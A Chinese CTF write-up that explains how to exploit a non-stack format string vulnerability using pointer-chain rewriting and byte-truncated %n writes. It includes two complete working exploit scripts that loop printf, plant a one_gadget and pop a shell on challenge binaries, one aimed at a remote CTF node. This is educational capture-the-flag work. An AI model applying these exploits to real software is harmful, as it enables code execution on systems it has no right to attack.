# 非栈上格式化字符串的利用方法-先知社区

> **来源**: https://xz.aliyun.com/news/18146  
> **文章ID**: 18146

---

### **前言**

本文以`第六届强网拟态线下赛`的格式化字符串Pwn题为例，分享非栈上格式化字符串的利用方法。  
主要涵盖两个关键技术点：

1. **多级指针链利用**：当格式化字符串不在栈上时，通过修改栈上现有的多级指针链（二重/三重指针）来间接控制目标内存
2. **高位截断技术**：当前期输出字符数已超过后期需求值时，利用`0x10000`溢出特性实现单字节精确写入

同时探讨`为何不能在同一条指针链上使用 $ 符号进行连续修改`的问题，并提出个人结论（如有错误希望师傅们指出）。

​

题目附件:

通过网盘分享的文件：第六届强网拟态fmt.rar

链接: <https://pan.baidu.com/s/19-fAYm0DuEhkSO7SzlJLAg?pwd=xidp> 提取码: xidp

### **第六届强网拟态线下赛的格式化字符串**



程序逻辑很简单，白给一个stack的地址，然后给一个非栈上格式化字符串的机会，最后没办法控制main函数的返回地址，因为是直接使用exit退出  


显而易见的我们遇到了两个问题:

1. 首先我们的 `buf` 不在栈上，没办法随意在栈中写入我们想要的地址然后去修改
2. 其次我们只有一次机会

首先来看看如果是 `非栈上的格式化字符串` 我们如何指定目标去修改  
我们使用gdb调试，将程序运行到 `call printf` 指令所在的地址，然后我们查看栈的情况看看什么可以利用的  
  
  
查看此时栈中的内容，我们发现栈中有多级指针链(也就是图中红色方框框出来的部分)  
那么有一个大胆的想法就产生了，我们是否可以通过修改这些多级指针链的内容从而控制我们想要的地址呢?

比如下图所示:  
下图中程序运行至 `call printf` 然后查看栈中信息

我们查看栈地址可知其中的 `0x7ffde9b11bd8` 在程序中对于 `printf函数` 的偏移为 `11`  
而 `0x7ffde9b11cb8` 的偏移则为 `39` 其中存储 `0x7ffde9b12317` 这个栈地址  
通过调试我们得知 `printf函数` 的返回地址存储在 `0x7ffde9b11ba8`

那么我们的想法很简单  
利用 `%n` 去修改 `0x7ffde9b11cb8` 中存储的地址，把 `0x7ffde9b12317` 改为 `0x7ffde9b11ba8` 修改两个字节即可  
然后就可以利用 `%n` 去修改 `0x7ffde9b11ba8` 中存储的地址了,调试可知只需要修改一字节即可  
也就是说这样我们就可以控制 `printf函数` 的返回地址了

我们构造的payload如下

```
# 输出90个字节
payload = b'%p' * 9 
# 修改第11个参数地址对应的值为 printf_ret_addr (这里是只需要修改末尾2个字节就行)
payload += b'%'+str(printf_ret_addr - 90).encode()+b'c%hn' 
# 可以将目标低字节修改为 0x23
payload += b'%'+str(0x100023 - (printf_ret_addr)).encode()+b'c%39$hhn'
```

这里使用了高位截断的技巧，因为前面我们已经修改了两个字节了也就是说我们输出的字节数已经大于0x23了，那么我们就可以让程序输出 `0x100023` 个字节，然后我们使用 `hhn` 也就是修改目标一字节，那么就会提取出 `0x100023` 末尾的 `0x23` 作为写入的数据

  
  


这里需要注意我们不能对同一条链子(比如图中的 `0x7ffde9b11bd8 -> 0x7ffde9b11cb8 -> 0x7ffde9b12317` )连续使用两次 `$` 符号  
如果我们第一次使用了 `%11$n` 那么第二次的 `%39$n` 就无法生效了

我们使用下面这条payload对比上面的payload来举个例子

```
payload = b'%' + str(printf_ret_addr).encode()+b'c%11$hn'
payload += b'%' + str(0x100023 - (printf_ret_addr)).encode()+b'c%39$hhn'
```

我们先来看看执行这条payload发生了什么(为了方便理解，这里我关掉了系统的aslr)

这是没有执行之前，pritnf 的返回地址是 `0x55555555523c`  
我们的链子是 `0x7fffffffdf48 —▸ 0x7fffffffe028 —▸ 0x7fffffffe33a ◂— 0x4853006e77702f2e /* './pwn' */`  


执行之后，我们发现尽管我们已经修改了链子，但是依旧没有成功修改printf的返回地址  
这就要问了，我们的第二个修改了什么？



既然我们没有成功修改返回地址，那第二个 `n` 修改了什么?  
我们再来看我们原本的链子下的 `0x7fffffffe33a` 数据从 `./pwn` 变成了 `#/pwn`  


也就是说我们虽然将 `0x7fffffffe33a` 修改为 `0x7fffffffdf18`   
但是我们的 `%39$n` 修改的依旧是 `0x7fffffffe33a` 这个地址存储的值，而不是 `0x7fffffffdf18` 地址保存的值，这是为什么?

这是因为 `$` 符号的实现的时候并不是直接去 `栈` 中找，而是分析完完整的format参数后采用一种预处理的手段，找到最大的 `%x$n` 然后从栈上将响应的信息提取到 `args_value` 当需要修改的时候就去 `args_value` 里面找到对应的地址  
也就是说虽然我们第一次改成功了，但是被修改的是栈中的数据，而 `args_value` 依旧是原来的值，所以我们修改的值依旧是原来的值  
如果还想要知道更加具体的过程我们就需要进入到pritnf源码里面去分析了，这里不再过多讲解，有兴趣的师傅可以看一下`WJH师傅`写的博客[格式化字符串漏洞利用 - WJH's Blog](https://blog.wjhwjhn.com/posts/af55bf3/#%E9%9D%9E%E6%A0%88%E4%B8%8A%E7%9A%84%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E5%88%A9%E7%94%A8)

下面放出我调试的截图(可能不太准确，做一个参考吧)

`call printf` 时候的栈空间  


打入不同payload之后在栈的某一地址中存储了我们的使用 `$` 符号所用到的指针(也有师傅说这些指针是存放在堆上的? 但是我调试尽管发现有使用malloc函数但是并没有在堆中找到我们调用的指针, 如果有错也欢迎师傅们指出，同时也希望有更加严谨的结论的师傅分享自己的结论和文章)

```
payload = b'%' + str(printf_ret_addr).encode()+b'c%11$hn'
payload += b'%' + str(0x100023 - (printf_ret_addr)).encode()+b'c%39$hhn'
```



```
payload = b'%' + str(printf_ret_addr).encode()+b'c%11$hn'
payload += b'%' + str(0x100023 - (printf_ret_addr)).encode()+b'c%39$hhn'
payload += b'%' + str(0x10005b - 0x100023).encode()+b'c%27$hhn'
```



然后使用格式化字符串修改 `0x7fffffffdf48 —▸ 0x7fffffffe028 —▸ printf的返回地址` 指向pritnf函数返回地址之后，我们每次都可以使用 `payload = b'%' + str(0x23).encode() + b'c%39$hhn'` 这条payload去修改printf的返回地址，达到多次使用格式化字符串漏洞

接下来就是在 `printf函数的返回地址` 下面的一个栈空间一步一步填入 `one_gadget` 然后最后将 `pritnf函数的返回地址` 修改为 `ret指令` 地址 ，从而调用 `one_gadget`

具体exp如下:

```
from xidp import *
#---------------------初始化----------------------------
arch = 64 
elf_os = 'linux'

challenge = "./pwn"
libc_path = '/home/xidp/tools/glibc-all-in-one/libs/2.31-0ubuntu9.17_amd64/libc.so.6'
ip = ''

# 1-远程 其他-本地
link = 2
io, elf, libc = loadfile(challenge, libc_path, ip, arch, elf_os, link)

debug(1)            # 其他-debug   1-info
# context.terminal = ['tmux', 'splitw', '-h']
#---------------------初始化-----------------------------
#---------------------debug------------------------------
# 自定义cmd
cmd = """
    set follow-fork-mode parent

    """
# 断点
bps = [0x0124B]
# bps = [0x7ffff7e36d3a]
#---------------------debug-------------------------------
'''
elf_offset --> 0x8e02a81df02d
elf_base --> 0x8e02a81dddcd
libc_offset --> 0x7ffff7ee31f2
libc_base --> 0x7ffff7dd5000
one_gadget --> 0x7ffff7eb8b01
'''

'''
pwndbg> tele 0x7fffffffdf50-0x8 30
00:0000│-018 0x7fffffffdf48 —▸ 0x55555555523c (main+147) ◂— lea rax, [rip + 0x2dfd]
01:0008│ rsp 0x7fffffffdf50 —▸ 0x7fffffffe050 ◂— 1
02:0010│-008 0x7fffffffdf58 ◂— 0x74db5bf5a748af00
03:0018│ rbp 0x7fffffffdf60 ◂— 0
04:0020│+008 0x7fffffffdf68 —▸ 0x7ffff7df9083 (__libc_start_main+243) ◂— mov edi, eax
05:0028│+010 0x7fffffffdf70 —▸ 0x7ffff7ffc620 (_rtld_global_ro) ◂— 0x6064b00000000
06:0030│+018 0x7fffffffdf78 —▸ 0x7fffffffe058 —▸ 0x7fffffffe351 ◂— 0x4853006e77702f2e /* './pwn' */
07:0038│+020 0x7fffffffdf80 ◂— 0x100000000
08:0040│+028 0x7fffffffdf88 —▸ 0x5555555551a9 (main) ◂— endbr64 
09:0048│+030 0x7fffffffdf90 —▸ 0x555555555260 (__libc_csu_init) ◂— endbr64 
0a:0050│+038 0x7fffffffdf98 ◂— 0xe34f173011012211
0b:0058│+040 0x7fffffffdfa0 —▸ 0x5555555550c0 (_start) ◂— endbr64 
0c:0060│+048 0x7fffffffdfa8 —▸ 0x7fffffffe050 ◂— 1
0d:0068│+050 0x7fffffffdfb0 ◂— 0
0e:0070│+058 0x7fffffffdfb8 ◂— 0
0f:0078│+060 0x7fffffffdfc0 ◂— 0x1cb0e8cfafe12211
10:0080│+068 0x7fffffffdfc8 ◂— 0x1cb0f88f316f2211
11:0088│+070 0x7fffffffdfd0 ◂— 0
... ↓        2 skipped
14:00a0│+088 0x7fffffffdfe8 ◂— 1
15:00a8│+090 0x7fffffffdff0 —▸ 0x7fffffffe058 —▸ 0x7fffffffe351 ◂— 0x4853006e77702f2e /* './pwn' */
16:00b0│+098 0x7fffffffdff8 —▸ 0x7fffffffe068 —▸ 0x7fffffffe357 ◂— 'SHELL=/bin/bash'
17:00b8│+0a0 0x7fffffffe000 —▸ 0x7ffff7ffe190 —▸ 0x555555554000 ◂— 0x10102464c457f
'''

# pwndbg(1, bps, cmd)

io.recvuntil('Gift: ')
stack_addr = int(io.recv(4),16)
leak("stack_addr")
printf_ret_addr = stack_addr - 0xc
leak("printf_ret_addr")

# step1 通过链子修改printf返回地址为程序中的 read = 0x01223
# 这里是通过高位截断的方法写入，也就是说我们输出的字符串是0x100023,但是我们只写入1字节，也就是最后一位0x23 
payload = b'%p' * 9 # 输出90个字节
payload += b'%' + str(printf_ret_addr - 90).encode()+b'c%hn'
payload += b'%' + str(0x100023 - (printf_ret_addr)).encode()+b'c%39$hhn'
payload = payload.ljust(0x100, b'\x00')
sd(payload)

io.recvuntil("0x100")
libc_offset = int(io.recv(14), 16) # rcx
libc_base = libc_offset - 0x10e1f2
leak("libc_offset")
leak("libc_base")
one_gadget = libc_base + 0xe3b01
leak("one_gadget")

io.recvuntil('0x')
io.recvuntil('0x')
io.recvuntil('0x')
io.recvuntil('0x')
elf_offset = int(io.recv(12), 16)
elf_base = elf_offset - 0x1260
leak("elf_offset")
leak("elf_base")

# 修改了第二条链子的第一个指针，改了两个字节，结尾改成rsp
# 0x7fffffffdff8 —▸ 0x7fffffffe068 —▸ 0x7fffffffdf50 —▸ 0x7fffffffe050 ◂— 1
payload = b'%' + str(0x23).encode() + b'c%39$hhn'
payload += b'%' + str((stack_addr - 4) - 0x23).encode() + b'c%27$hn'
payload = payload.ljust(0x100, b'\x00')
sd(payload)


# 修改第二条链子的第二个指针
# 0x7fffffffdff8 —▸ 0x7fffffffe068 —▸ 0x7fffffffdf50 —▸ 0x7fffffff8b01 ◂— 0
payload = b'%' + str(0x23).encode() + b'c%39$hhn'
payload += b'%' + str((one_gadget & 0xffff) - 0x23).encode() + b'c%41$hn'
payload = payload.ljust(0x100, b'\x00')
io.send(payload)


# 修改第二条链子的第一个指针
# 0x7fffffffdff8 —▸ 0x7fffffffe068 —▸ 0x7fffffffdf52 ◂— 0x520000007fffffff
payload = b'%' + str(0x23).encode() + b'c%39$hhn'
payload += b'%' + str(((stack_addr - 4 + 2)) - 0x23).encode() + b'c%27$hn'
payload = payload.ljust(0x100, b'\x00')
io.send(payload)

# 修改第二条链子的第二个指针
# 0x7fffffffdff8 —▸ 0x7fffffffe068 —▸ 0x7fffffffdf52 ◂— 0x520000007ffff7eb
payload = b'%' + str(0x23).encode() + b'c%39$hhn'
payload += b'%' + str(((one_gadget >> 16) & 0xffff) - 0x23).encode() + b'c%41$hn'
payload = payload.ljust(0x100, b'\x00')
io.send(payload)

# 修改第二条链子的第一个指针
# 00x7fffffffdff8 —▸ 0x7fffffffe068 —▸ 0x7fffffffdf54 ◂— 0x1a9a520000007fff 
payload = b'%' + str(0x23).encode() + b'c%39$hhn'
payload += b'%' + str(((stack_addr - 4 + 2 + 2)) - 0x23).encode() + b'c%27$hn'
payload = payload.ljust(0x100, b'\x00')
io.send(payload)

# 修改第二条链子的第一个指针
# 0x7fffffffdff8 —▸ 0x7fffffffe068 —▸ 0x7fffffffdf54 ◂— 0x1a9a520000007fff(这里是因为刚好是0x7fff所以没有变化)
payload = b'%' + str(0x23).encode() + b'c%39$hhn'
payload += b'%' + str(((one_gadget >> 32) & 0xffff) - 0x23).encode() + b'c%41$hn'
payload = payload.ljust(0x100, b'\x00')
io.send(payload)

# 修改最后一条链子的第二个指针
# 0x7fffffffdff0 —▸ 0x7fffffffe058 —▸ 0x7fffffffdf48 —▸ 0x5555555552c4 (ret) 
payload = b'%' + str(0xc4).encode() + b'c%39$hhn'
payload = payload.ljust(0x100, b'\x00')
io.send(payload)

# payload = b'a'
# sd(payload)

'''
第一步构造循环
第二步开始在printf返回地址的下面一个构造one_gadget
第三步修改printf返回地址为ret
'''

ia()
```

下面再推荐 `2025LitCTF` 的 `onlyone`   
[[LitCTF 2025]onlyone | NSSCTF](https://www.nssctf.cn/problem/6791)  
也是和上面 `强网拟态` 的题目几乎一样  
下面直接给出exp:

```
from xidp import *
#---------------------初始化----------------------------
arch = 64 
elf_os = 'linux'

challenge = "./pwn"
libc_path = './libc-2.31.so'
ip = 'node10.anna.nssctf.cn:23976'

# 1-远程 其他-本地
link = 2
io, elf, libc = loadfile(challenge, libc_path, ip, arch, elf_os, link)

debug(0)            # 其他-debug   1-info
# context.terminal = ['tmux', 'splitw', '-h']
#---------------------初始化-----------------------------
#---------------------debug------------------------------
# 自定义cmd
cmd = """
    set follow-fork-mode parent

    """
# 断点
bps = [0x8DC]
# 0x7ffff7e4bd1f
#---------------------debug-------------------------------

# 0x000000000000069e: ret;
# pwndbg(1, bps, cmd)

io.recvuntil(b"gift 1 is ")
stack_addr = int(io.recvuntil(b"
", drop=True), 16)
io.recvuntil(b"gift 2 is ")
puts_addr = int(io.recvuntil(b"
", drop=True), 16)
leak("stack_addr")
leak("puts_addr")
libc_base = puts_addr - libc.symbols['puts']
leak("libc_base")

one = [0x84135, 0xe3b01]
one_gadget = libc_base + one[1]
leak("one_gadget")
printf_ret_addr = (stack_addr & 0xffff) - 15
leak("printf_ret_addr")
rsp_addr = (stack_addr - 7) & 0xffff

payload  = b'%p' * 9
payload += b'%' + str(printf_ret_addr - 92).encode() + b'c%hn' # 11
payload += b'%' + str(0x10007b - printf_ret_addr).encode() + b'c%39$hhn'
sd(payload)


payload = b'%' + str(0x7b).encode() + b'c%39$hhn'
payload += b'%' + str(rsp_addr - 0x7b).encode() + b'c%27$hn'
payload = payload.ljust(0x100, b'\x00')
sd(payload)


payload = b'%' + str(0x7b).encode() + b'c%39$hhn'
payload += b'%' + str((one_gadget & 0xffff) - 0x7b).encode() + b'c%41$hn'
payload = payload.ljust(0x100, b'\x00')
sd(payload)


payload = b'%' + str(0x7b).encode() + b'c%39$hhn'
payload += b'%' + str(rsp_addr + 2 - 0x7b).encode() + b'c%27$hn'
payload = payload.ljust(0x100, b'\x00')
sd(payload)


payload = b'%' + str(0x7b).encode() + b'c%39$hhn'
payload += b'%' + str((one_gadget >> 16 & 0xffff) - 0x7b).encode() + b'c%41$hn'
payload = payload.ljust(0x100, b'\x00')
sd(payload)


payload = b'%' + str(0x7b).encode() + b'c%39$hhn'
payload += b'%' + str(rsp_addr + 4 - 0x7b).encode() + b'c%27$hn'
payload = payload.ljust(0x100, b'\x00')
sd(payload)


payload = b'%' + str(0x7b).encode() + b'c%39$hhn'
payload += b'%' + str((one_gadget >> 32) - 0x7b).encode() + b'c%41$hn'
payload = payload.ljust(0x100, b'\x00')
sd(payload)


payload = b'%'+str(0x069e).encode()+b'c%39$hn'
payload = payload.ljust(0x100, b'\x00')
sd(payload)


# payload = b'aaaa'
# sdl(payload)

ia()
```

参考:

1. [一次有趣的格式化字符串漏洞利用 | ZIKH26's Blog](https://zikh26.github.io/posts/a523e26a.html#%E7%A8%8B%E5%BA%8F%E5%88%86%E6%9E%90)
2. [格式化字符串漏洞利用 - WJH's Blog](https://blog.wjhwjhn.com/posts/af55bf3/#%E9%9D%9E%E6%A0%88%E4%B8%8A%E7%9A%84%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E5%88%A9%E7%94%A8)
